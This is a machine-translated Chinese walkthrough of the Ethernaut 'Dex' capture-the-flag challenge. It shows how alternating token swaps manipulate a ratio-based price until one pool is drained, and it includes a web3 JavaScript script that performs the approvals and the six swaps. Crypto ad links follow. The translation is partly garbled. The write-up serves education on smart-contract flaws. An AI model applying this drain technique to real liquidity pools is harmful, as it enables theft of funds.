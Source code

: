 # 以太解决方案:挑战 22 DEX

> 原文：<https://medium.com/coinmonks/ethernaut-solutions-challenge-22-dex-7cba25977cdf?source=collection_archive---------26----------------------->

![](img/8e1cc965fa4aec3bf0f532d25c4c75a3.png)

以太骑士的挑战 22 要求我们攻击一个敏捷。DEX 具有两种代币的流动性，您可以利用这种流动性进行交易，其中一种代币相对于另一种代币的价格是流动性池中代币相对于彼此的比率。

挑战是耗尽至少一个令牌。这是通过价格操纵来实现的，即反复相互交换代币，直到其中一个代币耗尽。

```
price = amount * balance_to_token/balance_from_token**Token1**  **Token2   AmountToken1 AmountToken2**
100      100         10          10        
// Exchange all of Token1 for Token2  ------> (10 * 10/10) = 10  
110       90          0          20 
// Exchange all of Token2 for Token1  ------> (20 * 110/90) = 24
86        110        24           0   
// Exchange all of Token1 for Token2  ------> (24 * 110/86) = 30
110        80         0          30
// Exchange all of Token2 for Token1  ------> (30 * 110/80) = 41
69         110       41           0
// Exchange all of Token1 for Token2  ------> (41 * 110/69) = 65
110         45         0         65
// Exchange 45 tokens token2 for Token1 ----> (45 * 110/45) = 45
0           90        110        20
// We depleted Token1 - a pricing that maintains an invariant e.g constant product formulae would not allow one token to be depleted relative to another e.g x*y = k 
```

代码解决方案

```
const token1Ad = await contract.token1()
const token2Ad = await contract.token2()const approveAmount = 200 const data = web3.eth.abi.encodeFunctionCall({
    name: 'approve',
    type: 'function',
    inputs: [
            {
                "name": "_spender",
                "type": "address"
            },
            {
                "name": "_value",
                "type": "uint256"
            }
        ],
}, [contract.address,approveAmount])await web3.eth.sendTransaction({from:player,to:token1Ad,data: data})
await web3.eth.sendTransaction({from:player,to:token2Ad,data: data})// Do the 6 steps of swaps highlighted earlier
await contract.swap(token1Ad,token2Ad,10)
await contract.swap(token2Ad,token1Ad,20)
await contract.swap(token1Ad,token2Ad,24)
await contract.swap(token2Ad,token1Ad,30)
await contract.swap(token1Ad,token2Ad,41)
await contract.swap(token2Ad,token1Ad,45)
```

[**你是需要审核的项目吗？**](https://quillhash.typeform.com/RequestAudit?utm_source=Referal&utm_medium=Zed)

如果您的项目需要来自专注于安全的专家公司的智能合同安全审计服务，该公司对区块链充满热情，在评估、测试、咨询、尽职调查、pen 测试和审计项目方面拥有丰富的知识和声誉，涉及[以太坊、币安智能链、Polygon、Solana、EVM 兼容链等**请填写此处的表格。**](https://quillhash.typeform.com/RequestAudit?utm_source=Referal&utm_medium=Zed)

> 加入 Coinmonks [电报频道](https://t.me/coincodecap)和 [Youtube 频道](https://www.youtube.com/c/coinmonks/videos)了解加密交易和投资

# 另外，阅读

*   [霍比审核](https://coincodecap.com/huobi-review) | [OKEx 保证金交易](https://coincodecap.com/okex-margin-trading) | [期货交易](https://coincodecap.com/futures-trading)
*   [网格交易机器人](https://coincodecap.com/grid-trading) | [Cryptohopper 审查](/coinmonks/cryptohopper-review-a388ff5bae88) | [Bexplus 审查](https://coincodecap.com/bexplus-review)
*   [7 个最佳零费用加密交易平台](https://coincodecap.com/zero-fee-crypto-exchanges)
*   [氹欞侊贸易评论](https://coincodecap.com/anny-trade-review) | [霍比融资融券交易](/coinmonks/huobi-margin-trading-b3b06cdc1519)
*   [去中心化交易所](https://coincodecap.com/what-are-decentralized-exchanges) | [比特恩斯 FIP](https://coincodecap.com/bitbns-fip) | [Pionex 评论](https://coincodecap.com/pionex-review-exchange-with-crypto-trading-bot)